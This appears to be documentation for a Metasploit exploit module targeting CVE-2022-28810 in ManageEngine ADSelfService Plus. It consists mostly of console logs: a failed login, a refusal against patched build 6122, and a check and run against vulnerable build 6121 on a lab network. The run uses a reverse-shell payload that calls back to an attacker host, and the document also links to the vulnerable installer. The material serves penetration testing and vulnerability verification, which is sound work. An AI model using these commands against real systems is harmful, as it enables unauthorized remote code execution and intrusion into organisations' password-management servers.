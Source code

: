 
### Failed log in

```
sf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set PASSWORD lolwat
PASSWORD => lolwat
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[-] Exploit aborted due to failure: no-access: Log in attempt failed

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```

### Failed exploitation of patched ADSelfService Plus build 6122

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.16
RHOST => 10.0.0.16
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. This determination is based on the version string: 6122. "set ForceExploit true" to override check result.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTPs (9251 is default when configured)

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RPORT 9251
RPORT => 9251
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:9251 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe